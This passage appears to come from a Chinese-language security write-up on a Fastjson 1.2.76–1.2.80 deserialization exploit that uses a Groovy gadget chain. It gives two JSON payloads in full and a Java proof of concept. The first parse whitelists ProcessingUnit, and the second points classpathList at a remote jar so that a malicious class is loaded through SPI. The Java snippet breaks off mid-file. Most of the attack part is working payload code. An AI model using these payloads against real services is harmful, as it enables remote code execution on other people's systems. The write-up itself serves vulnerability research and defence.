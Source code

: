 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250528154446842.png)

### 利用

见fastjsonVul

https://github.com/Lonely-night/fastjsonVul

先编译一个有spi服务的jar，然后需要有两次parse去解析两个payload，第一次解析是为了把org.codehaus.groovy.control.CompilationFailedException的unit字段，也就是ProcessingUnit设置为期望类，这样就能反序列化ProcessingUnit及其子类了。第二次解析是查找远程service，进而通过spi实例化恶意类

```json
//两次parse
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}
{
    "@type":"org.codehaus.groovy.control.ProcessingUnit",
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
    "config":{
        "@type":"org.codehaus.groovy.control.CompilerConfiguration",
        "classpathList":"http://127.0.0.1:8080/"
    },
    "gcl":null,
    "destDir":"/tmp"
}
```

```java

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

public class Groovy1_2_76To80 {

    public static void main(String[] args) {
        String json ="{\n" +
                "  \"@type\":\"java.lang.Exception\",\n" +
                "  \"@type\":\"org.codehaus.groovy.control.CompilationFailedException\",\n" +
                "  \"unit\":{\n" +
                "  }\n" +
                "}";

        try {
            // 反序列化将org.codehaus.groovy.control.ProcessingUnit 加入白名单
            JSON.parse(json);
        } catch (Exception e) {
            //e.printStackTrace();
        }

        json =
                "{\n" +
                        "  \"@type\":\"org.codehaus.groovy.control.ProcessingUnit\",\n" +
                        "  \"@type\":\"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit\",\n" +
                        "  \"config\":{\n" +
                        "    \"@type\": \"org.codehaus.groovy.control.CompilerConfiguration\",\n" +
                        "    \"classpathList\":[\"http://127.0.0.1:8888/fastjsonSPIJAR-1.0-SNAPSHOT.jar\"]\n" +
                        "  },\n" +
                        "  \"gcl\":null,\n" +
                        "  \"destDir\": \"/tmp\"\n" +
                        "}";
        // 反序列化将执行
```